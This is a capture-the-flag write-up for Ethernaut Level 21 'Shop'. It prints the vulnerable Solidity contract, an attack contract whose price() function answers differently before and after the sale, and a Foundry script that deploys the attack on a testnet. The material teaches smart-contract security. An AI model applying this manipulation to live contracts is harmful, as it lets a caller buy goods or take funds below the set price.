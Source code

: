 # Level 21 - Shop ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/21" %}

### Level Setup

{% hint style="info" %}
Сan you get the item from the shop for less than the price asked?

**Things that might help:**

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Shop.sol" %}

{% code lineNumbers="true" fullWidth="false" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-21

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-21

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/41e8352c33605e6e95a29c2bf937f92d53fb45a3/src/Level21.sol" %}

{% code title="src/Level21.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                         LEVEL 21 - SHOP                      │
// ================================================================
interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint256);
}

contract AttackContract {
    function price() public view returns (uint256) {
        bool isSold = IShop(msg.sender).isSold();
        uint256 askedPrice = IShop(msg.sender).price();
        if (!isSold) {
            return askedPrice;
        } else {
            return 0;
        }
    }

    function buyFromShop(address _shopAddr) public {
        IShop(_shopAddr).buy();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/41e8352c33605e6e95a29c2bf937f92d53fb45a3/script/Level21.s.sol" %}

{% code title="script/Level21.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level21.sol";

// ================================================================
// │                         LEVEL 21 - SHOP                      │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        vm.startBroadcast();
        AttackContract attackContract = new AttackContract();
        attackContract.buyFromShop(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
{% endhint %}
